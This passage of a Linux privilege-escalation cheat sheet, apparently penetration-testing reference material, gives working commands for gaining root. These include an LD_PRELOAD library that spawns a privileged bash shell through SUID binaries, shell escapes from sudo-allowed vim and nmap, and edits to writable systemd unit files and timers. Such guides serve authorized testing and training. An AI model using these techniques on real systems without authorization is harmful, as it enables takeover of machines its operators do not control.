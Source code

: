             #include <stdlib.h>

            __attribute__ ((constructor))
            void preload() {
                system("/bin/bash -p"); // Or any other command
            }
            ```
        2. Compile the library:
            ```bash
            gcc -shared -fPIC evil.c -o evil.so
            ```
        3. Set `LD_PRELOAD` and run the target program:
            ```bash
            export LD_PRELOAD=/path/to/evil.so
            ./target_program
            ```
        4. If `target_program` is a SUID binary, you will get a root shell.

# 2.9. Abusing SUDO Privileges: *High Priority if applicable*

    - Explanation: If the current user has sudo privileges, there may be ways to abuse those privileges to gain root access.
    - Enumeration: `sudo -l` (List sudo privileges).  This is *critical*.
    - Exploitation:
        - Unrestricted Commands: If the user can run *any* command with sudo, simply run `sudo /bin/bash` or `sudo su`.
        - Restricted Commands: If the user can run specific commands with sudo, look for ways to abuse those commands to gain root access.  GTFOBins is an invaluable resource here.
        - Example (vim): If the user can run `vim` with sudo, you can use `vim` to execute arbitrary commands:
            ```bash
            sudo vim
            :!/bin/bash
            ```
        - Example (nmap): If the user can run `nmap` with sudo, you can use `nmap`'s `--interactive` mode or NSE scripts to execute commands.
        - NOPASSWD: If a command is allowed with `NOPASSWD`, you don't need to enter a password to run it with sudo. This simplifies exploitation.

# 2.10. Systemd Exploitation: *Medium Priority*

    - Explanation: Systemd is a system and service manager for Linux. Vulnerabilities in systemd or misconfigurations in systemd unit files can be exploited for privilege escalation.
    - Techniques:
        - Writable Unit Files: If you can modify systemd unit files (e.g., `/etc/systemd/system/*.service`), you can change the `ExecStart` directive to execute arbitrary commands as root when the service is started or restarted.
        - Exploiting `Delegate=yes`: If a unit file has `Delegate=yes`, it means that the service is allowed to manage its own resources (e.g., create directories, modify files). This can potentially be exploited if the service is running as a privileged user.
        - Exploiting `DynamicUser=yes`: If a unit file has `DynamicUser=yes`, systemd will create a new, unprivileged user for the service. This is generally a security measure, but there may be ways to exploit it if the service interacts with other parts of the system.
        - Timers: Systemd timers are similar to cron jobs. If you can modify a timer unit file, you can schedule arbitrary commands to be executed as root.
        - Journalctl: `journalctl` is the systemd journal viewer. If you can write to the systemd journal, you might be able to inject malicious log messages that could be exploited by other services.
    - Enumeration:
        - systemctl list-units --type=service: List systemd services.
        - cat /etc/systemd/system/*.service: Examine systemd unit files.
        - systemctl status <service_name>: Get the status of a specific service.
